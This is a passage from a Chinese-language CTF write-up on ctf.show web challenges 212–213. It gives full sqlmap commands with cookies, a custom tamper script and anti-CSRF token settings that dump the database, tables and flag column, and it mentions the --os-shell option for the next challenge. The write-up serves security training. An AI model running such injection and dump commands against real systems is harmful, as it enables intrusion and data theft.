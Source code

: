 ```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs 
# 爆表 ctfshow_flavis
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs -D ctfshow_web --tables
# 爆字段 ctfshow_flagxsa
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web212.py --dbs -D ctfshow_web --tables -T ctfshow_flavis --columns
# 爆金币
sqlmap -u "https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://183689c5-7f8f-4276-8687-21e10d93fbcf.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web212.py --dbs -D ctfshow_web --tables -T ctfshow_flavis --columns -C ctfshow_flagxsa --dump
```

## web 213

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

过滤了空格，星号...没改？

上一题payload打一下，可以用。但是没有flag的表，这题提示考察`--os-shell`

```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/index.php"--method=put --data="id=1" --headers="Content-Type: text/plain"--cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs 
# 爆表 ctfshow_user
sqlmap -u "https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --dbs -D ctfshow_web --tables
```
